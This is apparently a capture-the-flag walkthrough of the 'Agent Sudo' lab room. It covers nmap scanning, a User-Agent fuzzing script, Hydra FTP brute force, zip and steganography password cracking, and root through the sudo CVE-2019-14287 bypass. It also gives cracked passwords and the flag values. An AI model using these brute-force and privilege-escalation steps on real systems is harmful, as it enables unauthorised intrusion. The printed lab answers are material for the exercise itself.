









# Agent Sudo


### How many ports are open

<details><summary>3</summary>
<p>

```bash
export IP= 
nmap -A $IP -oN scans/nmap.log
```
 <br>
</p>
</details>

### How you redirect yourself to a secret page?



Lets try to make request using different agents, from A-Z with a fuzzer


<details><summary>fuzz.py</summary>
<p>

```python
import requests
import string
import time

url = 'http://10.10.104.127/'

response_length = []
for element in list(string.ascii_uppercase[:26]): #Loops uppercase letters A-Z for User-Agent
    print("Agent " + element)
    print("--------------------------------------")
    headers = {'User-Agent': element }
    response = requests.get(url, headers=headers)
    if len(response.text) not in response_length:
        response_length.append(len(response.text))
        print(response.text)
        time.sleep(1)
    else:
        time.sleep(1)
    print("--------------------------------------")
```


 <br>
</p>
</details>

### What is the agent name?
We have username **chris**, brute force it with ssh and ftp

### FTP password
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp -V
```
>ftp password = crystal <br>




### Zip file password

Extract the loot with from the ftp folder with `mget *`

These images are suspicious
``binwalk -e cutie.png``


Check the extracted info<br>


Zip file requires a password, crack it with john

```bash
/usr/bin/zip2john 8702.zip > hash.txt   # This creates a hash from the file so john can parse it
john hash.txt                           # Brute force
```


>Password: alien <br>


### Steg password

Extract the file with the password
```bash
7z e 8702.zip       #Use alien as password
```


>Password: Area51 <br>


### Who is the other agent (in full name)?

To attack **.jpg** files we can use another tool called [&lt;steghide&gt;](https://github.com/StefanoDeVuono/steghide)  and stegcracker [&lt;stegcracker&gt;](https://pypi.org/project/stegcracker/)


```bash
steghide extract -sf cute-alien.jpg # Use password Area51
```


> Username: james <br>

### SSH Password

> Password: hackerrules!<br>


### What is the user flag?


Connect to ssh with those credentials

Once in, do Priv Esc
```
sudo -l                 #Check what commands can be run
sudo -u#-1 /bin/bash    #Vuln CVE : 2019-14287 gives root
```

User flag
`cat $(find / -name *flag.txt 2>/dev/null)`
> b03d975e8c92a7c04146cfa7a5a313c7

root flag
`cat $(find / -name *root.txt 2>/dev/null)`
> b53a02f55b57d4439e3341834d70c062
